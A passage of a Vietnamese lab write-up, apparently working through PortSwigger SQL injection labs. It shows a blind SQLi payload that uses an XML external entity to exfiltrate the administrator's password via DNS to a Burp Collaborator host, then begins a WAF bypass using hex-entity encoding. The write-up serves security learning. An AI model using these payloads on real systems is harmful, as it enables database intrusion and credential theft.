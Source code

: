 >Bên phía Collab:![image](https://hackmd.io/_uploads/BkOT7JPlA.png)

>Hoàn thành bài lab: ![image](https://hackmd.io/_uploads/HJeJ4JvgA.png)

# **17. Lab: Blind SQL injection with out-of-band data exfiltration**
>Bài lab này cũng như bài trước, thực hiện DNS Lookup cho Burp Collaborator để khai thác Out-of-band SQLi. Nhiệm vụ của ta là phải lấy được `password` của `administrator` và login để hoàn thành bài lab: 
![image](https://hackmd.io/_uploads/HJScNJvxR.png)

> Với payload như bài trước:
> `' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://0fg1htzkqjtmnzpj612ah2cneek68v.oastify.com/"> %remote;]>'),'/l') FROM dual--`
> 
> Bây giờ ta cần thêm lệnh để có thể lấy `password` trong bảng `users` của `administrator` : 
> `select password from users where username='administrator`

>Ghép thành payload mới cho bài này:
>`' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password from users where username='administrator')||'.0fg1htzkqjtmnzpj612ah2cneek68v.oastify.com/"> %remote;]>'),'/l') FROM dual--` 
![image](https://hackmd.io/_uploads/HkdPY1PgC.png)


>Gửi request và kiểm tra Burp Collaborator thì thấy các DNS query đã được gửi đến kèm theo `password` của `administrator` là: **np0y4bf91o8xhohj2zse**
![image](https://hackmd.io/_uploads/HkXmtkvg0.png)

>Login và hoàn thành bài lab: ![image](https://hackmd.io/_uploads/HyucKyDlA.png)

# **18. Lab: SQL injection with filter bypass via XML encoding**
>Nhiệm vụ của chúng ta là tìm được tài khoản và mật khẩu của admin trong bảng users để hoàn thành bài lab: 
![image](https://hackmd.io/_uploads/rJB_qyweR.png)

> Lỗ hổng SQLi trong bài này xảy ra ở phần kiểm tra số lượng hàng còn lại của sản phẩm: ![image](https://hackmd.io/_uploads/B1sen1wlC.png)

>Khi Check Stock thì, nó sẽ gửi 1 request để truy vấn số sản phẩm còn lại trong db. Trong đó, request với method POST được gửi với phần body dạng XML chứa 2 trường `productID` và `storeID`: 
>![image](https://hackmd.io/_uploads/SkzxpkDx0.png)

>Thêm thử vào `storeID` 1 phép toán khác, ví dụ như `1=2` thì vẫn thấy kết quả trả về đúng với kết quả khác ban đầu: ![image](https://hackmd.io/_uploads/H1eFpJveC.png)

>Tiếp tục thử `' OR 1=1--` thì bị WAF chặn lại: ![image](https://hackmd.io/_uploads/BkYT6kweA.png)

>Ta sẽ sử dụng cách encode HTML thành dạng hex entities đối với cả payload trên. (Vào Extension và cài đặt Hackvertor): ![image](https://hackmd.io/_uploads/Syb31gvgC.png)
